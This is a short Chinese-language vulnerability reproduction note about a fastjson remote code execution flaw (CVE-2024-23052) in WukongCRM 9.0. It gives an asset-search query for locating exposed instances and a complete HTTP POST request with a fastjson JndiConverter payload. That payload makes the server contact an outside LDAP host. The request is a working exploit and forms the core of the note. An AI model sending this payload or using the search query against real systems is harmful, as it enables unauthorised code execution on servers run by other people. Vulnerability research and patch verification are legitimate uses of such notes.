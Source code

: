 # 悟空CRM9.0 存在fastjson远程代码执行漏洞(CVE-2024-23052)

# 一、漏洞简介
 WuKongOpenSource WukongCRM v.72crm_9.0.1_20191202 中的一个问题允许远程攻击者通过 fastjson 组件中的 parseObject() 函数执行任意代码。

# 二、影响版本
+ 悟空CRM9.0

# 三、资产测绘
```plain
"悟空CRM"
```

![1720674649866-ce76a346-2f99-47e7-bf25-50dd41bd0118.png](./img/BBNca4tVgBc5_XpL/1720674649866-ce76a346-2f99-47e7-bf25-50dd41bd0118-556380.png)

# 四、漏洞复现
```http
POST /CrmCustomer/queryPageList HTTP/1.1
Host: 
Content-Length: 93
Content-Type: application/json;charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Connection: close

{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://pnftrxqvct.dgrh3.cn"}"
```

![1720674585092-2dd381e8-7b61-4eb3-9f6d-cd5e079e36a3.png](./img/BBNca4tVgBc5_XpL/1720674585092-2dd381e8-7b61-4eb3-9f6d-cd5e079e36a3-200256.png)



> 更新: 2024-08-12 17:16:00  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gm114v8t0b3st6u7>